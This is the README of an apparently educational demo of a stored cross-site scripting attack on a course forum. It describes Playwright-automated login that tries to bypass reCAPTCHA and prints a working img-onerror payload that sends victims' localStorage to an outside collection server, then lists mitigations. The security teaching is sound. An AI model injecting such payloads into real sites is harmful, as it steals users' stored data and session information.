 # Cross-Site Scripting (XSS) Attack

This project demonstrates an automated Cross-Site Scripting (XSS) attack using Playwright to inject a payload into the forum application.

## Usage

To build and run this project using Docker, follow these steps:

```bash
docker build -t xss-attack-demo .
docker run xss-attack-demo
```

## Attack Flow

The attack works as follows:

1. **Automated Login:** The script uses Playwright to automate the login process on the target website [https://elec0138-forum.0138019.xyz/](https://elec0138-forum.0138019.xyz/). It fills in the username and password fields and clicks the sign-in button. The automation aims to bypass protections reCAPTCHA, allowing unattended access.

2. **XSS Payload Injection:** After logging in, the script navigates to the forum section and posts a message containing a malicious XSS payload.

3. **Payload Details:** The payload is an `<img>` tag with an invalid `src` attribute and an `onerror` JavaScript handler:

   ```html
   <img src="x" onerror="const d={dt:'elec0138-xss',ls:JSON.stringify(localStorage)};new Image().src='https://elec0138-fc.meeska.me/collect?'+new URLSearchParams(d)">
   ```
   *   When a victim's browser attempts to load this image, the invalid `src` triggers the `onerror` event.
   *   The JavaScript code within `onerror` accesses the victim's `localStorage`, converts it to a JSON string, and includes a unique identifier (`dt:'elec0138-xss'`).
   *   It then constructs a URL for an external server (`https://elec0138-fc.meeska.me/collect`) and appends the stolen data as URL parameters.
   *   Requesting this URL via `new Image().src` sends the victim's `localStorage` data to the attacker-controlled server.

## Mitigation

1.  **Input Sanitization:** Rigorously sanitize all user-provided input on the server-side before storing or displaying it. Remove or encode potentially dangerous HTML tags and attributes (like `<script>`, `onerror`, `onload`, etc.). Use established libraries for sanitization specific to your backend language/framework.
2.  **Output Encoding:** When displaying user-generated content, ensure that it is properly encoded according to the context (HTML entity encoding for HTML content, JavaScript encoding for data within scripts, etc.). This prevents the browser from interpreting user input as active code.
3.  **Content Security Policy (CSP):** Implement a strong CSP header. A well-configured CSP can instruct the browser to:
    *   Disallow inline scripts (`script-src 'self'`) and inline event handlers.
    *   Restrict where resources (scripts, images, etc.) can be loaded from (`connect-src`, `img-src`). This could prevent the payload from sending data to the attacker's server.